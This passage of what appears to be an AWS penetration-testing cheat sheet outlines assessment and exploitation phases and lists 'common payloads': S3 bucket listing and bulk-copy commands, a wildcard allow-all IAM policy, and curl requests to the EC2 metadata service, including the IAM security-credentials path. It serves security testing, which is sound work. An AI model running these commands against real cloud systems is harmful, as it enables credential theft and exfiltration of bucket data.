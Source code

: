 ### Phase 2: Vulnerability Assessment
1. Test IAM vulnerabilities
2. Test S3 vulnerabilities
3. Test EC2 vulnerabilities
4. Test Lambda vulnerabilities

### Phase 3: Exploitation
1. Attempt AWS attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### S3 Bucket Enumeration
```bash
# S3 bucket enumeration
aws s3 ls s3://bucket-name/
aws s3 cp s3://bucket-name/file.txt ./
aws s3 sync s3://bucket-name/ ./
```

### IAM Policy Testing
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

### EC2 Metadata Access
```bash
# EC2 metadata access
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/user-data/
curl http://169.254.169.254/latest/iam/security-credentials/
```

---

## References
- [AWS Security Best Practices](https://aws.amazon.com/security/security-resources/)
- [AWS Security Considerations](https://aws.amazon.com/security/security-resources/)
- [AWS Vulnerability Examples](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/AWS)
- [AWS Security Testing](https://github.com/dolevf/aws-security-testing)
- [AWS Attack Vectors](https://github.com/dolevf/aws-attack-vectors)